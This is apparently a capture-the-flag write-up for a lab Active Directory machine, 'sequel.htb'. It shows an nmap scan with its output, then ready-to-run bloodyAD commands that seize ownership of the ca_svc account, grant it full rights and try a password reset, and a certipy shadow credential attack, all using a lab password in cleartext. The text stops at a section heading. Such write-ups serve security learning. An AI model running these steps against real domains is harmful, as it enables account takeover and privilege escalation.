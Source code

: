## Tools learned
This was my very first AD (and Windows, in general) machine. These are the tools I employed to pwn this machine:

* Bloodhound
* impacket-smbclient
* impacket-mssqlclient
* Netexec
* bloodyAD
* evil-winrm
* certipy
* Get-UserSPN
## User flag

We start the recon and enumeration of the machine with an Nmap scan:
`nmap -p- 10.10.11.51 -Pn`

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-30 00:04 UTC
Nmap scan report for sequel.htb (10.10.11.51)
Host is up (0.096s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
[...]
```
We can deduce from this scan's results that this machine is an Active Directory Domain Controller, because it exposes the signature services of a typical DC, `ldap`, `microsoft-ds`, `kpasswd5` those are evidence enough. In any case, this is something we already knew from the get-go, as this challenge is of assumed breach modality.

We tried running `netexec` with the provided credentials, to enumerate the directory's services and permissions of our compromised user.


## System flag

Change the object's owner:

`bloodyAD --host 10.10.11.51 -d 'sequel.htb' -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan

Output: 

`[+] Old owner S-1-5-21-548670397-972687484-3496335370-512 is now replaced by ryan on ca_svc`

Then we gave our controlled user full permissions over the `ca_svc`:

`bloodyAD --host 10.10.11.51 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 add genericAll ca_svc ryan`

`[+] ryan has now GenericAll on ca_svc`

In order to gain access to this user, we first tried to force a password change:

`bloodyAD --host 10.10.11.51 -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set password ca_svc password123!

That didn't work. We then tried to Kerberoast the account and crack the TGS's hash to get the password, and that didn't work either. Finally, we launched a shadow credential attack:

`certipy shadow -account ca_svc -target-ip 10.10.11.51 -u ryan@sequel.htb -p WqSZAF6CysDQbGb3 auto`

This attack was successful, and we gained access to the `ca_svc` account.

## The `ca_svc` domain user